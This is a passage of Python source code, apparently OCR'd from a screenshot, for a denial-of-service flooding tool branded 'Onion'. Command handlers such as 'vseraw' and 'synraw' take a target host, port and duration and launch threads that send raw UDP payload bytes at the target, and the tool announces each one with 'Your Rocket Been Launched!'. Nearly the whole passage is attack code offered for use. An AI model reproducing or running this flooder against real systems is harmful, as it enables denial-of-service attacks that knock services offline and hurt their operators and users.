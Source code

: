 					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x1e\x00\x01\x30\x02\xfd\xa8\xe3\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "vseraw":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x01\x01\x00\x01\x55\x03\x6f\x03\x1c\x03\x00\x00\x14\x14"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "synraw":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x01\x01\x00\x01\x55\x03\x6f\x03\x1c\x03\x00\x00\x14\x14"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "stopattacks":
			attack = False
			while not attack:
				if aid == 0:
					attack = True
		elif sinput == "stop":
			attack = False
			while not attack:
				if aid == 0:
					attack = True

		else:
			print ("[\033[31mOnion\033[31m]\033[00m {} Not a command".format(sinput))
			main()

try:
	cls = "clear"
	os.system(cls)
	print(banner)
	main()
except KeyboardInterrupt:
	exit()

